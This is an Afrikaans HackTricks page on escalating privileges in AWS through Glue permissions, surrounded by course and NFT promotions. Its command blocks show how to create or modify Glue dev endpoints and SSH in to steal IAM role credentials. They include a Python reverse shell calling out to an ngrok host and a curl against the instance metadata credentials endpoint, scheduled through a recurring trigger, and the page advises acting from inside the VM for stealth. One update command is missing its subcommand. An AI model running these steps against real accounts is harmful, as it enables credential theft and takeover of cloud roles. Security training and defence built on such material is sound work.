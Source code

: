 # AWS - Glue Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemmings kan **'n nuwe AWS Glue-ontwikkelingseindpunt opstel**, **deur 'n bestaande diensrol** met spesifieke toestemmings aan hierdie eindpunt toe te ken.

Na die opstel kan die **aanvaller SSH in die eindpunt se instansie** en die IAM-legitimasie van die toegewese rol steel:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Vir stilte doeleindes word dit aanbeveel om die IAM-legitimasie van binne die Glue virtuele masjien te gebruik.

**Potensiële Impak:** Privesc na die gespesifiseerde glue-diensrol.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemming kan **'n bestaande Glue-ontwikkelingspunt** se SSH-sleutel **verander en SSH-toegang daartoe aktiveer**. Dit stel die aanvaller in staat om opdragte uit te voer met die voorregte van die punt se gekoppelde rol:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potensiële Impak:** Privesc na die glue-diensrol wat gebruik word.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Gebruikers met **`iam:PassRole`** gekombineer met **`glue:CreateJob` of `glue:UpdateJob`**, en **`glue:StartJobRun` of `glue:CreateTrigger`** kan 'n **AWS Glue-werk skep of opdateer**, enige **Glue-diensrekening** koppel en die uitvoering van die werk inisieer. Die werk se vermoëns sluit in die uitvoering van willekeurige Python-kode, wat uitgebuit kan word om 'n omgekeerde skulp te vestig. Hierdie omgekeerde skulp kan dan gebruik word om die **IAM-legitimasie**s van die rol wat aan die Glue-werk gekoppel is, uit te lek, wat kan lei tot potensiële ongemagtigde toegang of aksies gebaseer op die toestemmings van daardie rol:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potensiële Impak:** Privesc na die glue-diensrol wat gespesifiseer is.

### `glue:UpdateJob`

Net met die opdate-toestemming kan 'n aanvaller die IAM-legitimasie van die reeds gehegte rol steel.

**Potensiële Impak:** Privesc na die glue-diensrol wat geheg is.

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

